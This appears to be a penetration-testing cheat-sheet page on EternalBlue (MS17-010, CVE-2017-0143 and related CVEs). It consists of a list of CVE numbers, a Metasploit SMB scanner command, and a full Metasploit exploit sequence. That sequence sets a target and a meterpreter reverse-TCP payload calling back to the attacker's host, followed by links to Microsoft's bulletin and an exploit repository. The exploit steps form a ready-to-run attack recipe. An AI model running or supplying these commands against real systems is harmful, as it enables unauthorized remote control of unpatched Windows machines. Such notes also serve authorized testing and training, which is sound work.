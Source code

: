 ```yaml
---
title : "CVE-2017-0143"
# pre : ' '
description : "EternalBlue exploits a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol."
date : 2020-03-23T11:14:37+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2017-0143 | MS17-010

- MS17-010
- CVE-2017-0143
- CVE-2017-0144
- CVE-2017-0145
- CVE-2017-0146
- CVE-2017-0148
- CVE-2017-0147

### Scanner

```plain
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

### Exploit

```plain
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > set rhost <target>
msf5 > set payload windows/x64/meterpreter/reverse_tcp
msf5 > set lhost <own-system>
msf5 > run
```

## URL List

- [Docs.microsoft.com](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
- [GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-010)
